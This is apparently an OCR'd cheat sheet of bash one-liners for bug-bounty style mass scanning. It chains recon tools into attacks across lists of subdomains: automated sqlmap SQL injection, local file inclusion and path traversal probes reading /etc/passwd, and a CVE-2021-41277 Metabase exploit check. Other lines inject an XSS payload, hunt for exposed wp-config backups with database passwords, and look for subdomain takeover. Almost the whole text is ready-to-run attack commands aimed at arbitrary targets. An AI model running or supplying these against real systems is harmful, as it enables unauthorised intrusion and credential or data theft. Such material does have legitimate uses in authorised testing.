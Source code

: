 ```bash
httpx -l targets.txt -silent -threads 1000 | xargs -I@ sh -c 'findomain -t @ -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1'`
```
**Local File Inclusion using Gau, gf, xargs**
```bash
cat sudomains.txt | httpx -silent -threads 500 | gau | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%"  2>&1 | grep -q "  root:x" && echo " VULN! %"'`
```
**CVE-2021-41277 Local File Inclusion in Metabase**
```bash
cat live.txt | while read host do;do curl --silent --insecure --path-as-is "$host/api/geojson?url=file:///etc/passwd" | grep -qs "root:x" && echo "$host Vulnerable";done`
```
**XSS using airixss, waybackurls, gf, uro, httpx, qsreplace**
```bash
echo http://testphp.vulnweb.com | waybackurls | gf xss | uro | httpx -silent | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)"
```
**Company Sensitive Data using gau**
```bash
cat subdomains.txt | gau | tee gau.txt | grep -E
"\\.xls|\\.xlsx|\\.json|\\.pdf|\\.sql|\\.doc|\\.docx|\\.pptx|\\.mp3|\\.mp4|\\.zip|\\.tar|\\.gzip|\\.rar|\\.json"
| tee sensitive-files.txt`
```
**Generate Target Based Wordlist with gau and unfurl**
```bash
cat subdomains.txt | gau | unfurl paths | rev | cut -d '/' -f1 | rev | sort -u | tee wordlist.txt`
```
**/api/geojson target IP ranges LFI**
```bash
cat subdomains.txt | httpx -nc -t 250 -p 80,443,8080,8443,4443,8888 -path "/api/geojson?url=file:///etc/passwd" -mr "root:x" | anew geojson-lfi.txt
```
**Nginx Path Traversal**
```bash
cat subdomains.txt | httpx -silent -path "///////../../../../../../etc/passwd" -sc -mc 200 -mr 'root:x' | anew nginx-traversal.txt
```
**wp-config.php_orig using httpx**
```bash
cat subdomains.txt | httpx -silent -sc -mc 200 -path "/wp-config.php_org" -mr "DB_PASSWORD" | anew wp-config.php_orig`
```
**Create your own wordlist from @0xJin**
```bash
cat domains.txt | httpx | xargs curl | tok | tr '[:upper:]' '[:lower:]' | sort -u | tee -a wordlist.txt`
```
**Subdomain Takeover**
```bash
cat domains.txt | assetfinder --subs-only | tee subdomains.txt; subjack -w
subdomains.txt -ssl -t 100 | tee -a takeover.txt | grep -v "Vulnerable"`
```
**Auto scanner**
```bash
subfinder -d site.com -all | naabu | httpx | nuclei -t nuclei-templates
```
**Finding files (For example in here .json file)**
```bash
subfinder -d site.com -all | naabu | httpx | waybackurls | grep -E ".json(?:onp?)?$"
```
**Find interesting subdomain (For example like admin.staging.example.com)**
```bash
subfinder -d site.com -all | dnsprobe -silent | cut -d ' ' -f1 | grep --color 'dmz\|api\|staging\|env\|v1\|stag\|prod\|dev\|stg\|test\|demo\|pre\|admin\|beta\|vpn\|cdn\|coll\|sandbox\|qa\|intra\|extra\|s3\|external\|back'
```